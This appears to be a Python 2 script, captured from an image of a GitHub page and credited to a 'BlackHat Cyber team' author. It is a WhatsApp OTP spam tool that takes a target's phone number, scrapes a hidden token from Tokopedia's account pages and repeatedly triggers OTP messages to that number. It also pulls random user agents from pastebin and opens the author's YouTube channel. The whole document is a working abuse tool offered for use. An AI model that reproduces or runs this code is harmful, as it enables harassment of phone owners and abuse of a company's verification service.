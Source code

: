 #!/usr/bin/python2

# Creator :  ./NARRA.)
# Team : BlackHat Cyber team
# Thanks To All Member
# Recode Tidak Akan Membuat Anda Menjadi Pencipta Kode :3

from requests.exceptions import ConnectionError
from time import sleep
import requests
import random
import sys
import os
import re

M = '\033[1;31m'
H = '\033[1;32m'
K = '\033[1;33m'
U = '\033[1;34m'
P = '\033[1;35m'
C = '\033[1;36m'
W = '\033[1;37m'
A = '\033[90m'

def banner():
	print(''+C+'''
  ____                         __        __    
 / ___| _ __   __ _ _ __ ___   \ \      / /_ _ 
 \___ \| '_ \ / _` | '_ ` _ \   \ \ /\ / / _` |
  ___) | |_) | (_| | | | | | |   \ V  V / (_| |
 |____/| .__/ \__,_|_| |_| |_|    \_/\_/ \__,_|
       |_|                                     
                   '''+W+'Creator : ./NARRA\n\t\t   YouTube : NARRA')
                   
def main():
	os.system('clear')
	sleep(1.5)
	os.system('xdg-open https://www.youtube.com/channel/UCT8Z0bmoVPbiYmq6_JG8Y_Q')
	os.system('clear')
	banner()
	print('')
	print('')
	nomor = raw_input(''+C+'MASUKKAN NOMOR TARGET'+W+' ('+H+' Ex :'+C+' 0812xxxx '+W+') : ')
	agent = requests.get('https://pastebin.com/raw/zkCXTGcm').text.split('\n')
	acak = random.choice(agent)
			
	headers = {
	'Connection' : 'keep-alive',
	'Accept' : 'application/json, text/javascript, */*; q=0.01',
	'Origin' : 'https://accounts.tokopedia.com',
	'X-Requested-With' : 'XMLHttpRequest',
	'User-Agent' : '{acak}',
	'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
	'Accept-Encoding' : 'gzip, deflate',
	}
			
	site = requests.get('https://accounts.tokopedia.com/otp/c/page?otp_type=116&msisdn='+nomor+'&ld=https%3A%2F%2Faccounts.tokopedia.com%2Fregister%3Ftype%3Dphone%26phone%3D{}%26status%3DeyJrIjp0cnVlLCJtIjp0cnVlLCJzIjpmYWxzZSwiYm90IjpmYWxzZSwiZ2MiOmZhbHNlfQ%253D%253D', headers = headers).text
	search = re.search(r'\<input\ id\=\"Token\"\ value\=\"(.*?)\"\ type\=\"hidden\"\>', site).group(1)
			
	data = {
	'otp_type' : '116',
	'msisdn' : nomor,
	'tk' : search,
	'email' : '',
	'original_param' : '',
	'user_id' : '',
	'signature' : '',
	'number_otp_digit' : '6',
	}
			
	try:
		send = requests.post('https://accounts.tokopedia.com/otp/c/ajax/request-wa', headers = headers, data = data)
		if 'Anda sudah melakukan 3 kali pengiriman kode' in send.text:
			print('')
			print(''+C+'Pengiriman'+A+' Gagal !')
			print('')
			print(W+'Tunggu 25 Menit Lagi Anjenk :v')
			print('')
		
		else:
			print('')
			print(''+C+'Pengiriman'+W+' Sukses !')
			print('')
			print(W+'Ulang Lagi Kalo Mau Banyak :v')
			print(W+'Maksimal Pengulangan 3 x Dalam 25 Menit :`-|')
			print('')
			
	except:
		print('')
		print(M+'Cek Koneksi / Terjadi Kesalahan !')
		
if __name__ == '__main__':
	main()
